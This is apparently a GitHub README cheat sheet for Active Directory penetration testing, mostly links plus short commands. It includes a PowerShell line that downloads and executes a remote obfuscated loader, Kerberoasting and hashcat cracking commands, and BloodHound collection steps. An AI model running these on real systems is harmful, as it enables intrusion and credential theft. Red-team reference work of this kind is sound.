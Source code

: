 ### Legitimate files for security audit

$key need to be set

```
IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/TikTakTech/Salsa/main/KP_Obf_LOAD_Menu.ps1')
```

# CYBER CHEAT SHEET

Global Ressources
---
- https://viperone.gitbook.io/pentest-everything
- https://book.hacktricks.xyz/
- https://atomicredteam.io/atomics/
- https://github.com/S3cur3Th1sSh1t/

Kiosk evasion : file access from browser or openfile dialogbox
---
```
file://c:/windows/system32/calc.exe
```

Recent user activity
---
```
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Recent
```

Url file attack
---
- https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication
- https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/forced-coercion/url-file-attack
- https://github.com/mdsecactivebreach/Farmer
- https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/

NTLM
---
- https://www.scip.ch/en/?labs.20210909

KALI : Files Transfert
---
```
python -m http.server
```

- https://haveibeenpwned.com/
- https://breachdirectory.org/

SYSVOL access without serveur name
---
```
\\mon-domaine.fr\sysvol
```
Searching Password in GPO with explorer
---

![image](https://github.com/TikTakTech/Salsa/assets/114105972/45e450e0-3a09-4da1-89d0-24db9bc8adb7)

BloodHound
---
```
bloodhound-python -d domain -u username@domain -p password -c all -ns domain_controller_ip -v
sudo apt install bloodhound
sudo neo4j console
http://localhost:7474/
(neo4j/neo4j)
bloodhound
```
https://medium.com/@leviathan36/active-directory-testing-with-bloodhound-a33b88622d2f

ADMiner
---
```
pipx install 'git+https://github.com/Mazars-Tech/AD_Miner.git'
reopen shell ;-)
AD-miner -c -cf My_Report -u neo4j -p mypassword
```
https://github.com/Mazars-Tech/AD_Miner

Kerberoasting
---
```
Find-PotentiallyCrackableAccounts -Stealth -GetSPNs | Get-TGSCipher -Format Hashcat
Invoke-Kerberoast | fl
Invoke-Kerberoast -OutputFormat Hashcat | % { $_.Hash } | Out-File hashes.txt -Encoding ASCII
hashcat -m 13100 --force -a 0 /home/kali/Downloads/hashes.txt /home/kali/Downloads/rockyou.txt
```
- https://atomicredteam.io/credential-access/T1558.003/
- https://github.com/cyberark/RiskySPN
- https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1
- https://www.youtube.com/watch?v=ycNadGeq03E
- https://raw.githubusercontent.com/EmpireProject/Empire/08cbd274bef78243d7a8ed6443b8364acd1fc48b/data/module_source/credentials/Invoke-Kerberoast.ps1
  
MEMCM - PXE
---
- https://www.secura.com/blog/attacking-mitigating-windows-pxe-environments
- https://www.netspi.com/blog/technical-blog/network-penetration-testing/attacks-against-windows-pxe-boot-images
- https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps
- https://connect.ed-diamond.com/MISC/misc-103/compromission-des-postes-de-travail-grace-a-laps-et-pxe
- https://www.acceis.fr/sattaquer-aux-images-pxe
- https://github.com/wavestone-cdt/powerpxe
- https://tryhackme.com/r/room/breachingad

  Linux - Outils de crise
  ---
- https://korben.info/outils-crise-linux-indispensables-pros-it.html
- https://www.brendangregg.com/blog/2024-03-24/linux-crisis-tools.html

<br/><br/>
